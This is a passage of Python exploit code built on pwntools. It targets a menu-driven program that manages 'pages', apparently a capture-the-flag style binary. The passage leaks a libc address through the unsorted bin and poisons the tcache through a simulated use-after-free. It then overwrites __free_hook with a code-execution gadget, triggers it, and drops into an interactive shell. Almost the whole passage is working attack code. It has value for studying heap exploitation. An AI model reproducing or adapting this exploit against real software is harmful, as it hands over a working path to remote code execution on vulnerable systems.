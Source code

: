 ```python
        # Create a fake chunk after Page2
        self._write_to_page(2, b'A' * 0xf0 + p64(0) + p64(0x71) + b'\n')
        # free Page2 into the unsorted bin
        self._free_page(2)
        pwnlog.info('Leaking libc address')
        # Empty 0x158 sized tcache-bin
        for _ in range(7):
            self._create_page(0x158)

        # Push libc pointers into Page1 within the unsorted-bin
        self._create_page(0x158)

        # Leak libc address through Page1
        libc_leak = self._leak_libc_address()
        pwnlog.success(f'Leaked libc address = {hex(libc_leak)}')

        pwnlog.info('Simulating UAF and triggering Tcache poisoning')
        # Simulate UAF vulnerability
        self._create_page(0x168)
        # Free page 1
        self._free_page(1)
        # use Page1dup to overwrite fd pointer
        self._write_to_page(9, p64(libc_leak + self.LEAK_TO_LIBC_BASE_OFFSET + self.FREE_HOOK_OFFSET) + b'\n')
        
        pwnlog.info('Overwriting __free_hook to RCE gadget')
        self._create_page(0x168)
        self._create_page(0x168)
        self._write_to_page(10, p64(libc_leak + self.LEAK_TO_LIBC_BASE_OFFSET + self.RCE_GADGET_OFFSET) + b'\n')
        
        pwnlog.info('Triggering free')
        self._create_page(0x21)
        # Trigger free
        self._trigger_free_hook(11)

        pwnlog.success('Going interactive')
        self._proc.interactive()

    def _create_page(self, size):
        self._proc.sendline(b'1')
        pwnlog.debug(self._proc.recv(4096))
        if size <= 240:
            self._proc.sendline(b'1')
        elif 271 < size <= 480:
            self._proc.sendline(b'2')
        pwnlog.debug(self._proc.recv(4096))
        self._proc.sendline(bytes(str(size), 'utf-8'))
        pwnlog.debug(self._proc.recv(4096))

    def _free_page(self, index):
        self._proc.sendline(b'4')
        pwnlog.debug(self._proc.recv(4096))
        self._proc.sendline(bytes(str(index), 'utf-8'))
        pwnlog.debug(self._proc.recv(4096))

    def _leak_libc_address(self):
        self._proc.sendline(b'3')
        pwnlog.debug(self._proc.recv(4096))
        self._proc.sendline(bytes(str(8), 'utf-8'))
        self._proc.recv(9)
        return u64(self._proc.recv(6).ljust(8, b'\x00'))

```